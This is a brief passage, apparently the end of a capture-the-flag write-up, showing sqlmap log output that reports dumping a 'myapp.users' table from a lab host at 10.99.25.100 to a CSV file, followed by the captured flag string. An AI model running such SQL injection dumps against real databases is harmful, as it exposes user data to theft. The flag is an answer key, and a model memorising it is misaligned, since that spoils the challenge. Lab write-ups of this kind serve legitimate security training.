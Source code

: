 ```shell
+----+----------+-------------------------------------------------------+

[22:37:32] [INFO] table 'myapp.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.99.25.100/dump/myapp/users.csv'
[22:33:32] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.99.25.100'
[22:37:32] [WARNING] your sqlmap version is outdated

[*] ending @ 22:37:32 /2025-10-26/

```

## Vlajka

    FLAG{BCba-VkYk-Kw3N-HFPw}
